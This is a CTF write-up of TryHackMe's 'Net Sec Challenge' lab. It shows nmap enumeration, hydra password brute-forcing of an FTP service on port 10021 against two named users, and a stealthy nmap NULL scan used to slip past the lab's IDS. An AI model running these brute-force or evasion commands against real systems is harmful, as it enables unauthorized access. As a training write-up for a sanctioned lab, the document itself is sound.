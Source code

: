 # Net Sec Challenge
**Date:** May 5th 2022

**Author:** j.info

**Link:** [**Net Sec Challenge**](https://tryhackme.com/room/netsecchallenge) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>

![](images/netsec0.png)

<br>

## Objectives

![](images/netsec1.png)

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -Pn -T4 10.10.175.22`

```
22/tcp   open  ssh         (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-OpenSSH_8.2p1 <REDACTED>
| ssh-hostkey: 
|   3072 da:5f:69:e2:11:1f:7c:66:80:89:61:54:e8:7b:16:f3 (RSA)
|   256 3f:8c:09:46:ab:1c:df:d7:35:83:cf:6d:6e:17:7e:1c (ECDSA)
|_  256 ed:a9:3a:aa:4c:6b:16:e6:0d:43:75:46:fb:33:b2:29 (ED25519)
80/tcp   open  http        lighttpd
|_http-server-header: lighttpd <REDACTED>
|_http-title: Hello, world!
139/tcp  open  netbios-ssn Samba smbd 4.6.2
445/tcp  open  netbios-ssn Samba smbd 4.6.2
<REDACTED>/tcp open  http        Node.js (Express middleware)
<REDACTED>/tcp open  ftp     vsftpd <REDACTED>
```

An additional full port scan finds 10021 open.

This answers questions 1 through 6 in the objectives.

<br>

## FTP Digging

The challenge mentions **hydra** so I try and brute force the usernames mentioned in the objectives and both are found:

`hydra -l eddie -P rockyou.txt -s 10021 10.10.175.22 ftp`

`hydra -l quinn -P rockyou.txt -s 10021 10.10.175.22 ftp`

```
[10021][ftp] host: 10.10.175.22   login: eddie   password: <REDACTED>
[10021][ftp] host: 10.10.175.22   login: quinn   password: <REDACTED>
```

Logging in as **eddie** doesn't lead to anything.

Logging in as **quinn** shows us the following file:

```
-rw-rw-r--    1 1002     1002           18 Sep 20  2021 ftp_flag.txt
```

`wc -c ftp_flag.txt`

```
18 ftp_flag.txt
```

That answers the 7th objective.

<br>

## Website Challenge

The objectives mention a challenge waiting for us on port 8080 and visiting displays:

![](images/netsec2.png)

So we need to stealthily nmap scan the machine in order for a flag to be displayed. I will say that after playing around with this for a little while it's pretty finicky and sometimes seemed to work and other times not.

I tried very stealthy scans changing the rate up, using decoy IP addresses, the -f -Pn -n etc flags, and the website never registered the scan as having happened so it wouldn't trigger the flag, even though the scans completed.

In the end I paired it down to this which worked:

`sudo nmap -p- -sN 10.10.175.22`

![](images/netsec3.png)

<br>

With that we've completed this CTF!

![](images/netsec4.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Using **hydra** to brute force the ftp server for two users we knew about
- Using stealthy **nmap** scans to avoid **IDS detection**

<br>

Many thanks to:
- [**strategos**](https://tryhackme.com/p/strategos) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)